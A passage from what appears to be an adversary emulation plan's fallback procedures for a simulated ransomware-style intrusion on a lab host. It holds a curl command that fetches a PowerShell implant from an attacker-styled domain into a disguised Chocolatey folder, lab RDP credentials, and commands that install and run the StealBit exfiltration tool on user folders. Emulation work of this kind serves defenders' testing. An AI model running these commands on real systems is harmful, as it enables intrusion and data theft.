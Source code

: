 :exclamation: No alternative steps for this.

## Step 6 - Privilege Escalation and Command & Control

### No Choco Available or Unable to Download ThunderShell

#### :biohazard: Tier 1 Procedures

* Using the elevated Command Prompt in the VNC or RDP session to
`quirrell (10.111.9.202)`, execute the following command to download
ThunderShell:

  ```cmd
  md C:\ProgramData\chocolatey\lib\Termini\tools\
  curl http://1nvisibility-cl0ak.net/files/llfehnPxfbAg.ps1 -o C:\ProgramData\chocolatey\lib\Termini\tools\termini.ps1
  ```

* Return to scenario execution of ThunderShell in PowerShell

### ThunderShell Fails to Execute

#### :biohazard: Tier 1 Procedures

* Continue using the elevated Command Prompt in the VNC or RDP session for the
remaining scenario execution

## Step 7 - Exfiltration

### No ThunderShell Available to Execute Choco

#### :biohazard: Tier 1 Procedures

* :arrow_right: Initiate an RDP session to `quirrell (10.111.9.202)` (if not
already open)

  | Username | Password |
  | -------- | -------- |
  | decryptmalfoy.net\gornuk | Concave-Monsieur |

* If no elevated command prompt is currently open, search for Command Prompt
and right-click to Run As Administrator
  
* Run the following command in the command prompt to download StealBit to
`quirrell (10.111.9.202)`

  ```cmd
  choco install connhost
  ```
  
* Run the following command in the command prompt to execute StealBit:

  ```cmd
  connhost.exe C:\Users\ -d
  ```
